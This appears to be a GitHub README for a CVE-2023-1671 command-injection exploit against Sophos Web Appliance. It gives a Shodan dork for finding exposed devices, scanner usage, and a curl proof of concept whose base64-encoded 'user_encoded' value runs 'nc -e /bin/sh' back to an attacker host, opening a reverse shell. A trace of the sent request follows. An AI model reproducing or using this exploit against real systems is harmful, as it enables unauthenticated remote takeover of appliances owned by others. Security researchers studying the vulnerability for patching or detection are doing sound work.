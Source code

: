 ## CVE-2023-1671
- Shodan dorks: <br/>
	  title:"Sophos Web Appliance" <br/>
	  
### Usage
      chmod +x scanner.sh
	  ./scanner.sh target.txt
	  
### POC
	  curl -k --trace-ascii % "https://victim_ip_addr/index.php?c=blocked&action=continue" -d "args_reason=filetypewarn&url=$RANDOM&filetype=$RANDOM&user=$RANDOM&user_encoded=$(echo -n "';nc -e /bin/sh attacker_ip_addr 4444 #" | base64)"


	  #snip
	  => Send header, 184 bytes (0xb8)
      0000: POST /index.php?c=blocked&action=continue HTTP/1.1
      0034: Host: XX.XX.XX.XX
      004a: User-Agent: curl/7.88.1
      0063: Accept: */*
      0070: Content-Length: 120
      0085: Content-Type: application/x-www-form-urlencoded
      00b6:
      => Send data, 120 bytes (0x78)
      0000: args_reason=filetypewarn&url=16625&filetype=5831&user=4525&user_
      0040: encoded=**************************
